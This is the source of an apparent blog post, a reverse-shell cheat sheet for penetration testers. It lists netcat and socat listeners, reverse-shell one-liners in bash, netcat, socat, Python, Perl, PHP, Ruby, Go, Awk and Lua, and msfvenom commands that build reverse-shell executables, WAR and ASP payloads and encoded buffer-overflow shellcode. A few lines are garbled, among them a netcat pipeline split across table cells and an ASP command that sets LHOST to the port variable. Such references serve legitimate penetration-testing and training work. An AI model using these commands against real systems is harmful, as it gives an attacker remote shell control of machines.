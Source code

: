```yaml
---
layout: post
author: hyprcub
title: Reverse Shell Cheat Sheet
tags: cheatsheet
---
```

# References

- [Get Reverse-shell via Windows one-liner](https://www.hackingarticles.in/get-reverse-shell-via-windows-one-liner/)
- [php-reverse-shell.php](https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php)
- Reverse shell cheat sheets:
	- [PayloadAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md) is a really awesome place to look for exotic shells
	- [HighOn.Coffee](https://highon.coffee/blog/reverse-shell-cheat-sheet/)
	- [pentestmonkey](http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet)

# General advices

- Don't forget to check for shells other than `sh` or `bash`: `ash`, `bsh`, `csh`, `ksh`, `zsh`, `pdksh`, `tcsh`. And so on, be creative.
- If your favorites `1234` or `1337` TCP ports don't work, try `80/tcp` or UDP ports as there may be filtering in place.
- In the following, replace `LHOST` with your IP and `LPORT` with your port.

# Listeners

| Command                                | Description          |
|----------------------------------------|----------------------|
| `nc -nlvp LPORT`                       | Netcat on TCP        |
| `nc -u -nlvp LPORT`                    | Netcat on UDP        |
| `socat -d -d TCP4-LISTEN:LPORT STDOUT` | Socat (yes 2 `-d`'s) |

# Short One-liners


| Command                                                        | Description                                      |                         |                                           |
|----------------------------------------------------------------|--------------------------------------------------|-------------------------|-------------------------------------------|
| `nc -nv LHOST LPORT -e /bin/sh`                                | [Traditional netcat](http://www.stearns.org/nc/) |                         |                                           |
| `ncat -nv LHOST LPORT -e /bin/sh`                              | [Nmap ncat](https://nmap.org/ncat//)             |                         |                                           |
| `rm /tmp/f;mkfifo /tmp/f;cat /tmp/f                            | /bin/sh -i 2>&1                                  | nc LHOST LPORT >/tmp/f` | OpenBSD netcat (doesn't have `-e` switch) |
| `socat TCP4:LHOST:LPORT EXEC:/bin/sh`                          | [Socat](http://www.dest-unreach.org/socat/)      |                         |                                           |
| `/bin/bash -i >& /dev/tcp/LHOST/LPORT 0>&1`                    | Bash TCP, works with `sh` too                    |                         |                                           |
| `/bin/bash -i >& /dev/udp/LHOST/LPORT 0>&1`                    | Bash UDP with listener `nc -u -lvp LPORT`        |                         |                                           |
| `0<&196;exec 196<>/dev/tcp/LHOST/LPORT; sh <&196 >&196 2>&196` | sh                                               |                         |                                           |

# Language Specific (Linux mostly)

Python
```
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("LHOST",LPORT));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```

Perl
```
perl -e 'use Socket;$i="LHOST";$p=LPORT;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'
```

PHP
```
php -r '$sock=fsockopen("LHOST",LPORT);exec("/bin/sh -i <&3 >&3 2>&3");'
```

Ruby
```
ruby -rsocket -e'f=TCPSocket.open("LHOST",LPORT).to_i;exec sprintf("/bin/sh -i <&%d >&%d 2>&%d",f,f,f)'
```

Golang
```
echo 'package main;import"os/exec";import"net";func main(){c,_:=net.Dial("tcp","LHOST:LPORT");cmd:=exec.Command("/bin/sh");cmd.Stdin=c;cmd.Stdout=c;cmd.Stderr=c;http://cmd.Run();}'>/tmp/sh.go&&go run /tmp/sh.go
```

Awk
```
awk 'BEGIN {s = "/inet/tcp/0/LHOST/LPORT"; while(42) { do{ printf "shell>" |& s; s |& getline c; if(c){ while ((c |& getline) > 0) print $0 |& s; close(c); } } while(c != "exit") close(s); }}' /dev/null
```

Lua
```
lua -e "require('socket');require('os');t=socket.tcp();t:connect('LHOST','LPORT');os.execute('/bin/sh -i <&3 >&3 2>&3');"
```

# Msfvenom generated 

Here the shell variables `lhost` and `lport` are set accordingly:
```bash
export lhost=$(ip address show tun0 | grep "inet " | awk '{print $2}' | cut -d "/" -f 1)
export lport=443
```

| Command                                                                                                                                            | Description                           |
|----------------------------------------------------------------------------------------------------------------------------------------------------|---------------------------------------|
| `msfvenom -p cmd/unix/reverse_netcat LHOST=$lhost LPORT=$lport`                                                                                    | netcat                                |
| `msfvenom -p linux/x86/shell_reverse_tcp LHOST=$lhost LPORT=$lport -f elf -o myshell`                                                              | Linux 32bits bin                      |
| `msfvenom -p linux/x64/shell_reverse_tcp LHOST=$lhost LPORT=$lport -f elf -o myshell`                                                              | Linux 64bits bin                      |
| `msfvenom -p java/jsp_shell_reverse_tcp LHOST=$lhost LPORT=$lport -f war -o myshell.war`                                                           | Tomcat                                |
| `msfvenom -p windows/shell_reverse_tcp LHOST=$lhost LPORT=$lport -f exe -o myshell.exe`                                                            | Windows bin                           |
| `msfvenom -p windows/shell_reverse_tcp LHOST=$lport LPORT=$lport -f asp -o myshell.asp`                                                            | ASP                                   |
| `msfvenom -p windows/shell_reverse_tcp LHOST=$lhost LPORT=$lport EXITFUNC=thread -f python -v shellcode -e x86/shikata_ga_nai -b "\x00\x0a\x0d"`   | Windows Shellcode for Buffer Overflow |
| `msfvenom -p linux/x86/shell_reverse_tcp LHOST=$lhost LPORT=$lport EXITFUNC=thread -f python -v shellcode -e x86/shikata_ga_nai -b "\x00\x0a\x0d"` | Linux Shellcode for Buffer Overflow   |
